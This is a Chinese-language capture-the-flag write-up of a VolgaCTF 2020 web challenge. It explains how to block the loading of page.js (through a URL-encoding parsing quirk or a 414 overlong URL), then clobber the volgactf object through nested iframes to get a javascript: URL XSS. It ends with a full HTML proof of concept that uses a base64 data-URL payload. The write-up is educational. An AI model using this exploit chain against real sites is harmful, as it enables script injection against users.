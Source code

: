 page.js

```javascript
volgactf = {
pages: {
'2011': './html/2011.html',
'2012': './html/2012.html',
'2013': './html/2013.html',
'2014': './html/2014.html',
'2015': './html/2015.html',
'2016': './html/2016.html',
'2017': './html/2017.html',
'2018': './html/2018.html',
'2019': './html/2019.html'
},
activePage: {
location: 2019
}
};
```

主要代码逻辑就是通过对page.js的加载更改location.hash切换页面

如果我们可以将 volgactf.activePage.location的值替换为javascript:alert(1)的话，即可造成xss攻击

所以目前要做的就是将volgactf.active覆盖为一个window对象，对于覆盖的实现可以使用Dom clobbering进行覆盖，不过volgactf.active在题目中已经是一个被声明的变量了，我们需要使这个变量变成未定义的状态，在旧版本的chrome中可以通过xss-auditor进行变量移除，不过在新版本中已经被删掉了。

但是在这个题目中可以通过另外的方式使得此变量变成未定义的模式，此变量的获取是通过page.js进行变量赋值的，我们可以通过一些手段使得Page.js无法成功加载达到此目的

大概有两种方法，如下：

- Nginx与浏览器的解析差异问题

对于https://archive.q.2020.volgactf.ru/x/..%2F来讲，如果Nginx进行解析的话，实际上请求的是https://archive.q.2020.volgactf.ru，但是浏览器并不会对%2F进行解码，会将其视作文件，所以最后通过script调用page.js实际产生的是https://archive.q.2020.volgactf.ru/x/js/page.js，进一步可成功得到未定义的volgactf.activePage

- 通过斜线构造超长URL

```
https://archive.q.2020.volgactf.ru////[.....]/////              200 OK

https://archive.q.2020.volgactf.ru////[.....]/////js/main.js    414 Request-URI Too Large
```

触发414，同样无法成功加载page.js，进而得到未定义的volgactf.activePage

回归本体的攻击思路

- 首先通过iframe引入https://archive.q.2020.volgactf.ru/x/..%2F（子页面）
- 构造frames[0].frames[0].location构造孙页面
- 孙页面的iframe设置name为activePage,并且将此页面的window.name设置为volgactf，此时相当于成功污染子页面的volgactf变量，最后将volgactf.activePage设置为与题目同域的window对象

最后的利用Poc如下

```html
<iframe src='https://archive.q.2020.volgactf.ru/x/..%2f'></iframe>
<script>
window.onload=function (){
  frames[0].frames[0].location='data:text/html;base64,PGlmcmFtZSBuYW1lPWFjdGl2ZVBhZ2Ugc3JjPWh0dHBzOi8vYXJjaGl2ZS5xLjIwMjAudm9sZ2FjdGYucnUvP2FhYT48L2lmcmFtZT48c2NyaXB0PndpbmRvdy5uYW1lPSd2b2xnYWN0Zic7PC9zY3JpcHQ+';
  setTimeout(function(){frames[0].location='https://archive.q.2020.volgactf.ru/x/..%2f#javascript:alert(document.domain)'},1000)
}
</script>
```

